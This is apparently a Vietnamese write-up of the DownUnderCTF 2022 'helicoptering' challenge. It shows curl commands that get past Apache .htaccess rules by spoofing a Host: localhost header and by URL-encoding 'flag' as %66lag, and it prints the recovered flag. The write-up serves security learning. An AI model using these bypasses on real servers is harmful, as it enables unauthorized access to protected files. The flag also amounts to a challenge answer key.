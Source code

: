 # WRITE-UP  DownUnderCTF 2022 -  helicoptering 

Sau khi sữ dụng lệnh curl -I http://yourdomain.com ta nhận được:

HTTP/1.1 403 Forbidden

Date: Tue, 15 Apr 2025 08:44:43 GMT

Server: Apache/2.4.54 (Debian)

Content-Type: text/html; charset=iso-8859-1

Bạn thấy một mã trạng thái 403 hoặc một số thông báo khác cho thấy bị từ chối quyền truy cập, có thể đó là vì quy tắc .htaccess chặn truy cập.

# Ở file one/.htaccess ta thấy rằng nếu Host không phải là localhost, yêu cầu sẽ bị từ chối ngay lập tức với mã trạng thái 403 Forbidden (thông qua dòng RewriteRule ".*" "-" [F])
RewriteEngine On

RewriteCond %{HTTP_HOST} !^localhost$

RewriteRule ".*" "-" [F]

Vì vậy thiết lập header Host trong yêu cầu HTTP thành localhost.

curl -i -s -k -X $'GET' -H $'Host: localhost' $'http://192.168.93.128:30026/one/flag.txt'

'''text
HTTP/1.1 200 OK
Date: Tue, 15 Apr 2025 09:02:00 GMT
Server: Apache/2.4.54 (Debian)
Last-Modified: Tue, 15 Apr 2025 06:34:43 GMT
ETag: "10-632cb5d2eec3c"
Accept-Ranges: bytes
Content-Length: 16
Content-Type: text/plain

DUCTF{thats_it_
'''


# Ở file two/.htaccess ta thấy kiểm tra biến server THE_REQUEST, chứa toàn bộ dòng yêu cầu HTTP (ví dụ: GET /index.html HTTP/1.1). 
Điều quan trọng là quy tắc tìm kiếm sự xuất hiện của chuỗi flag trong dòng yêu cầu. Nếu tìm thấy flag, yêu cầu sẽ bị chặn (qua RewriteRule).
RewriteEngine On
RewriteCond %{THE_REQUEST} flag
RewriteRule ".*" "-" [F]

Vì vậy chúng ta cần đảm bảo rằng chuỗi flag không xuất hiện trong dòng yêu cầu. 
Nên mã hóa URL chuỗi flag, vì quy tắc .htaccess chỉ kiểm tra chuỗi flag chưa được mã hóa.
Chuỗi mã hóa URL của từ flag là %66lag

curl http://192.168.93.128:30026/two/%66lag.txt
next_time_im_using_nginx}
